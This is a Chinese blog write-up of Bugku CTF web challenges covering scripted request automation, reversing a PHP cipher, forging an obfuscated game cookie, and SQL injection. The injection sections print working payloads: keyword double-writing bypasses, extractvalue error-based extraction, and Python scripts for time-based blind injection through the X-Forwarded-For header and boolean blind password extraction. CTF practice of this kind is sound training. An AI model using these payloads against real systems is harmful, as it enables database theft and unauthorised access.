<!--yml
category: 未分类
date: 2022-04-26 14:29:41
-->

# CTF解题-Bugku_Web_WriteUp (下）_Tr0e的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_39190897/article/details/108032432](https://blog.csdn.net/weixin_39190897/article/details/108032432)

BugkuCTF 练习平台的 Web 题目往后越做越难……单独起新的博文记录该难度级别的题目。


# No.1 Python脚本算数

题目“秋名山老司机”，查看解题链接：


百度知道这道题是快速反弹 POST请求，HTTP 响应头获取了一段有效期很短的 key 值后，需要将经过处理后的 key 值快速 POST 给服务器，若 key 值还在有效期内，则服务器返回最终的 flag，否则继续提示“请再加快速度！！！”。所以你别想手动传值了，必须使用python脚本了，python中有eval() 函数可以快速计算，满足要求。

编写自动化脚本如下：

```
 import re
import requests

s = requests.Session()
r = s.get("http://123.206.87.240:8002/qiumingshan/")

searchObj = re.search(r'(\d+[+\-*])+(\d+)', r.text)

d = {

        "value": eval(searchObj.group(0))
    }

r = s.post("http://123.206.87.240:8002/qiumingshan/", data=d)

print(r.text).encode('gbk','ignore') 
```

运行脚本获得Flag：


需要多次运行才可以获取flag，可能在计算过程或者传值过程有错误。

# No.2 Python提交数据

1、查看解题链接：


2、抓包看看，go重放发现 response 带有 flag：

3、Base64 转码：



4、然而提交 Flag 却显示不对：


5、看大佬们写的wp，知道 repeater 里的那个让我惊喜的 flag 值居然在变……go了几发终于死心…无可奈何开始写脚本，前面源码提示了需要 “post the margin”……

```
import requests
import base64

s =requests.Session()
headers =s.get("http://123.206.87.240:8002/web6/").headers
str1 = base64.b64decode(headers['flag'])

str2 = base64.b64decode(repr(str1).split(':')[1])

data= {'margin':str2}
flag = s.post("http://123.206.87.240:8002/web6/",data=data)
print(flag.text) 
```

6、执行脚本获得Flag：



# No.3 Python爬取数据

1、查看解题地址：

2、将疑似 base64 编码的 filename 进行转码，为 keys.txt：


3、尝试用修改参数 filename 的值为 index.php（注意此处要用base64加密为`aW5kZXgucGhw`），发现参数 line 没有给值，随意赋值如1、2、3，发现依次返回网页源码行：


4、写脚本抓原代码，先试一下有多少行，100，50，25，20都无回显，大约定在20行，脚本如下：

```
import requests
import re

for i in range(1,20):
    url="http://123.206.87.240:8002/web11/index.php?line="+str(i)+"&filename=aW5kZXgucGhw"
    s=requests.get(url)
    print(s.text) 
```

5、运行脚本获得代码如下：


6、分析源代码得知，当cookie的 margin=margin 时，可以访问一个 keys.php 文件（注意把参数filename的值改为 base64 加密后的 keys.php）：

成功获得 flag。

# No.4 Python逆向解密

1、查看题目链接（此题意思就是阅读提供的加密代码，编写脚本逆向解密提供的加密字符串获得Flag）：


附上完整代码：

```
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) { 
        if ($x == $klen)
        {
            $x = 0;
        }

        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {

        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?> 
```

2、此题关键理解同余的加密解密，过程图解如下：


3、编写对应的 Python 脚本进行自动化解密：

```
 import base64

def detrcy(b64):
    int_b64 = []
    b64de = base64.b64decode(b64)
    for i in range(len(b64de)):
        int_b64.append(ord(b64de[i])) 
    key = '729623334f0aa2784a1599fd374c120d729623' 
    int_key = []
    for i in range(len(key)):
        int_key.append(ord(key[i])) 
    flag = ''
    for i in range(len(int_b64)):
        flag += chr((int_b64[i]-int_key[i]+128) % 128) 
    print(flag)

if __name__ == '__main__':
    str_b64 = 'fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA='
    detrcy(str_b64) 
```

4、执行脚本获得 Flag：



# No.5 JS 加密代码审计

1、查看题目链接：


【题意解读】

如来神掌要所有属性都满后才能花100000两学会；练功可以提升一点属性，需要页面延迟5秒；赚钱每次100两，需要页面延迟5秒；可各花费10000两来加满每个属性（内功、外功等）。

因此我们肯定是要想办法修改自己的金钱数目了，一开始没有头绪，想写个js脚本来自动赚钱。但看一下如果弄完也要两个小时左右，而且每次赚钱后的js弹窗无法处理，那么正解肯定不是这样。

2、看看网上各位大佬的 WriteUp，知道需要删掉网址后面的`?action`内容，只保留wulin.php，查看源代码得到几个js文件：


查看 script.js 文件，发现被混淆、加密了：


使用[JS在线工具](https://tool.lu/js/)解密转换一下：


获得的完整代码如下：

```
function getCookie(cname) {
	var name = cname + "=";
	var ca = document.cookie.split(';');
	for (var i = 0; i < ca.length; i++) {
		var c = ca[i].trim();
		if (c.indexOf(name) == 0) return c.substring(name.length, c.length)
	}
	return ""
}

function decode_create(temp) {
	var base = new Base64();
	var result = base.decode(temp);
	var result3 = "";
	for (i = 0; i < result.length; i++) {
		var num = result[i].charCodeAt();
		num = num ^ i;
		num = num - ((i % 10) + 2);
		result3 += String.fromCharCode(num)
	}
	return result3
}

function ertqwe() {
	var temp_name = "user";
	var temp = getCookie(temp_name);
	temp = decodeURIComponent(temp);
	var mingwen = decode_create(temp);
	var ca = mingwen.split(';');
	var key = "";
	for (i = 0; i < ca.length; i++) {
		if (-1 < ca[i].indexOf("flag")) {
			key = ca[i + 1].split(":")[2]
		}
	}
	key = key.replace('"', "").replace('"', "");
	document.write('');
	setTimeout(function() {
		document.getElementById("attack-1").src = "image/1-2.jpg"
	}, 1000);
	setTimeout(function() {
		document.getElementById("attack-1").src = "image/1-3.jpg"
	}, 2000);
	setTimeout(function() {
		document.getElementById("attack-1").src = "image/1-4.jpg"
	}, 3000);
	setTimeout(function() {
		document.getElementById("attack-1").src = "image/6.png"
	}, 4000);
	setTimeout(function() {
		alert("你使用如来神掌打败了蒙老魔，但不知道是真身还是假身，提交试一下吧!flag{" + md5(key) + "}")
	}, 5000)
} 
```

3、从上面的代码中我们可以关注到 Cookie 被加密了：

```
var temp_name = "user";
var temp = getCookie(temp_name);
temp = decodeURIComponent(temp);
var mingwen = decode_create(temp); 
```

在浏览器控制台依次执行以上代码：


可以看到，Cookie 里的内容按照所给解密方式解密得到一串明文。这里我们就可以通过修改 money 属性的值来变得“富有”：

```
原内容：O:5:"human":10:{s:8:"xueliang";i:863;s:5:"neili";i:875;s:5:"lidao";i:67;s:6:"dingli";i:86;s:7:"waigong";i:0;s:7:"neigong";i:0;s:7:"jingyan";i:0;s:6:"yelian";i:0;s:5:"money";i:0;s:4:"flag";s:1:"0";}
修改后：O:5:"human":10:{s:8:"xueliang";i:863;s:5:"neili";i:875;s:5:"lidao";i:67;s:6:"dingli";i:86;s:7:"waigong";i:0;s:7:"neigong";i:0;s:7:"jingyan";i:0;s:6:"yelian";i:0;s:5:"money";i:999999;s:4:"flag";s:1:"0";} 
```

之后要逆着加密内容然后传回给Cookie即可完成修改金币。

> 特别要注意并不是简单的逆回去就好了，base64.js 里有坑。base64.js里是一个Base64函数，里面有两个公有方法 encode() 和 decode()，两个私有方法_utf8_encode() 和 _utf8_decode()。恶心的是 encode() 里使用了 _utf8_encode()，而 decode() 里没有使用_utf8_decode()。

如下图所示：


3、开始逆运算，仔细看 script.js 里的 decode_create() 方法。如下图所示，我们相当于现在一至 result3，要求计算出 result。


求出 result 后需要对其使用 base64.js 里的 encode() 方法进行加密，但是不能调用 _utf8_encode() 这个私有方法。因为之前解密的时候使用base64.js 里的 decode() 方法里将 _utf8_decode() 注释掉了。

```
逆运算蓝框所示内容，代码如下：
result3="O:5:\"human\":10:{s:8:\"xueliang\";i:870;s:5:\"neili\";i:819;s:5:\"lidao\";i:89;s:6:\"dingli\";i:63;s:7:\"waigong\";i:0;s:7:\"neigong\";i:0;s:7:\"jingyan\";i:0;s:6:\"yelian\";i:0;s:5:\"money\";i:999999;s:4:\"flag\";s:1:\"0\";}"
result = ""
for (i = 0; i < result3.length; i++) {
    var num = result3[i].charCodeAt();
    num = num + ((i % 10) + 2);
    num = num ^ i;
    result += String.fromCharCode(num)
} 
```

控制台执行以上代码：


之后就需要按照 base64.js 里的 encode() 内容来加密，但是不能调用_utf8_encode() 这个私有方法：

```
var output = "";
var chr1, chr2, chr3, enc1, enc2, enc3, enc4;
var i = 0;
input = result;
while (i < input.length) {
    chr1 = input.charCodeAt(i++);
    chr2 = input.charCodeAt(i++);
    chr3 = input.charCodeAt(i++);
    enc1 = chr1 >> 2;
    enc2 = ((chr1 & 3) << 4) | (chr2 >> 4);
    enc3 = ((chr2 & 15) << 2) | (chr3 >> 6);
    enc4 = chr3 & 63;
    if (isNaN(chr2)) {
        enc3 = enc4 = 64;
    } else if (isNaN(chr3)) {
        enc4 = 64;
    }
    output = output + _keyStr.charAt(enc1) + _keyStr.charAt(enc2) + _keyStr.charAt(enc3) + _keyStr.charAt(enc4);
} 
```

同样在控制台执行一下：


接下来只需要执行 encodeURIComponent()方法，然后再传入Cookie 中即可：


故在浏览器控制台继续执行：


4、成功修改完 Cookie 后，刷新页面查看“属性”，金钱已经变为999999：


5、接下来就是花钱到商店里买完所有的技能学会如来神掌，再到讨伐页面讨伐老魔就能得到flag：



# No.6 sql 注入手工绕过

1、查看解题链接：


2、在 id=1 后面增加单引号则报错，增加`'--+`则正常回显，判断存在SQL注入：


3、尝试`?id=1' or 1=1--+` 也报错，可能存在过滤；尝试双写绕过`?id=1'oorr 1=1--+` 返回正常：


4、那如何检测哪些字符串被过滤了呢？新技能GET！**异或注入了解一下，两个条件相同（同真或同假）即为假**：



同理测试（将url中的union替换）出被过滤的字符串有：and，or，union，select，都用双写关键词来绕过。

5、爆数据表 (注意：information里面也有or)：

```
?id=1' ununionion seselectlect 1,group_concat(table_name) from infoorrmation_schema.tables where table_schema=database()--+ 
```


6、爆字段：

```
?id=1%27%20ununionion%20seselectlect%201,%20group_concat(column_name)%20from%20infoorrmation_schema.columns%20where%20table_name=%27flag1%27--+ 
```


7、爆数据：

```
?id=1%27%20ununionion%20seselectlect%201,%20group_concat(flag1)%20from%20flag1--+ 
```


8、提交flag显示错误，换个字段。爆address，得出下一关地址：

```
?id=1%27%20ununionion%20seselectlect%201,%20group_concat(address)%20from%20flag1--+ 
```


9、打开之后，当双写绕过和大小写绕过都没用时，这时我们需要用到报错注入，爆字段数：


10、爆库：

```
?id=1' and (extractvalue(1,concat(0x7e,database(),0x7e)))--+ 
```


11、爆表：

```
?id=1' and(extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema="web1002-2"),0x7e)))--+ 
```


12、爆列：

```
?id=1' and(extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema="web1002-2" and table_name="flag2"),0x7e)))--+ 
```


13、爆flag

```
?id=1' and(extractvalue(1,concat(0x7e,(select group_concat(flag2) from flag2),0x7e)))--+ 
```



# No.7 Python 时间盲注

1、查看解题链接：

给出了源码如下：

```
<?php
error_reporting(0);

function getIp(){
$ip = '';
if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];     
}else{
$ip = $_SERVER['REMOTE_ADDR'];      
}
$ip_arr = explode(',', $ip);        
return $ip_arr[0];

}

$host="localhost";
$user="";
$pass="";
$db="";

$connect = mysql_connect($host, $user, $pass) or die("Unable to connect");

mysql_select_db($db) or die("Unable to select database");

$ip = getIp();
echo 'your ip is :'.$ip;
$sql="insert into client_ip (ip) values ('$ip')";       
mysql_query($sql);
?> 
```

很明显，这是一道过滤了逗号的 XFF 注入题目。由于返回结果无有效回显，可以进行时间盲注。在过滤了逗号的情况下，我们就不能使用if语句了，在mysql中与if有相同功效的就是：

```
select case when (条件) then 代码1 else 代码 2 end; 
```

而且由于逗号被过滤，我们就不能使用substr、substring了，但我们可以使用：from 1 for 1，所以最终我们的payload如下：

```
127.0.0.1'+(select case when substr((select flag from flag) from 1 for 1)='a' then sleep(5) else 0 end))-- + 
```

**python脚本：**

```
 import requests
import sys

sql = "127.0.0.1'+(select case when substr((select flag from flag) from {0} for 1)='{1}' then sleep(5) else 0 end))-- +"
url = 'http://123.206.87.240:8002/web15/'
flag = ''
for i in range(1, 40):
    print('正在猜测：', str(i))
    for ch in range(32, 129):
        if ch == 128:
            sys.exit(0)
        sqli = sql.format(i, chr(ch))

        header = {
            'X-Forwarded-For': sqli
        }
        try:
            html = requests.get(url, headers=header, timeout=3)
        except:
            flag += chr(ch)
            print(flag)
            break 
```

2、执行脚本获得 Flag：



# No.8 Python 布尔盲注

1、先来看看题目链接：


2、输入不存在的用户名报错 “ username error ”，输入正确用户名 admin 但密码错误则报错 “ password error ”，在用户名输入万能密码“`admin';--+`”则报错 “ illegal character ”，SQLmap自动注入无果：


3、因为被过滤的字符会返回“illegal character”，先使用 SQL 注入 Fuzz 字典判断哪些关键词被过滤了：


4、由于`^`没有被过滤啊，所以想到使用异或进行注入，发现只有在括号内的值为真时，才返回 “ username error ”，所以数据库的长度为3，如下图：


5、综上已可以确定存在布尔盲注！附上大佬的脚本：

```
 import requests

url = 'http://123.206.87.240:8007/web2/login.php'
payload = 'abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.{}'

flag = ''

for i in range(1,40):
	for p in range(32,126):

		sqlstr = u"admin'-(ascii(mid(REVERSE(MID((passwd)from(-%d)))from(-1)))=%d)-'" %(i,p)
		username ="admin'-(ascii(mid(REVERSE(MID((passwd)from(-%d)))from(-1)))=%d)-'" 
		data = {
				'uname':sqlstr,
				'passwd':'123456'
				}
		html = requests.post(url,data=data).text
		if 'username' in html:
			print i
			flag += chr(p)
			print flag
print "=================================>"
print "\n" + flag 
```

执行结果如下：


6、解密以上32位 MD5 密码值，然后登录系统获得 Flag：

